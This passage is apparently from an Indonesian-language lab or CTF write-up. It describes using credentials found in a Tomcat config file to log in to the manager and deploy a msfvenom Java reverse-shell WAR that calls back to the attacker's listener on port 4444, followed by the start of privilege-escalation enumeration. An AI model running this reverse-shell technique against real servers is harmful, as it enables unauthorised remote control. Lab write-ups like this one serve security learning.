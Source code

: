 karena sudah extracted, maka saya membuka file ekstraksinya yaitu `tomcat-users.xml`. Dan ini merupakan file `credentials` untuk bisa masuk ke `tomcat manager` dan mengunggah `reverse shell` dari `msfvenom` lalu mengeksekusinya dan masuk kendali sistem.

```xml
╭─ via [machines/aqua]
╰─ cat tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>

..[snippet]..

<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
        <role rolename="manager-gui"/>
        <role rolename="admin-gui"/>
        <user username="aquaMan" password="P4st3lM4n" roles="manager-gui,admin-gui"/>
</tomcat-users>
```
Lalu saya masuk ke, `$victim:8080` dan menuju ke `/manager` untuk mengatur kendali `management` tomcat server ini. lalu saya mengunggah revershell yang saya buat menggunakan `msfvenom`.

![lol](https://i.postimg.cc/ydYCQL0c/image.png)

ini dia payload yang saya gunakan.

```
╭─ via [machines/aqua]
╰─ msfvenom -p java/shell_reverse_tcp LHOST=192.168.59.1 LPORT=4444 -f war > sharpicx.war   
Payload size: 13320 bytes
Final size of war file: 13320 bytes
```
nyalakan `multi/handler` dari `msfconsole` sebagai `redirect socket` untuk mendapatkan shell dari `tomcat`.

![a](https://i.postimg.cc/TPBHmQCT/image.png)

dan boom!

![msfconsole](https://i.postimg.cc/286HyP7P/image.png)

## shell as tridente

Saya mendapatkan hal bagus dari `linpeas`. sebuah service `memcached` aktif dengan port `11211`. 

![damn](https://i.postimg.cc/kg341dGS/image.png)

Dan ini sudah terverifikasi dalam tabel `Active Ports`, dan sudah saya cek secara manual melalui `netstat` dan `ss` bahwa ini adalah service independent.
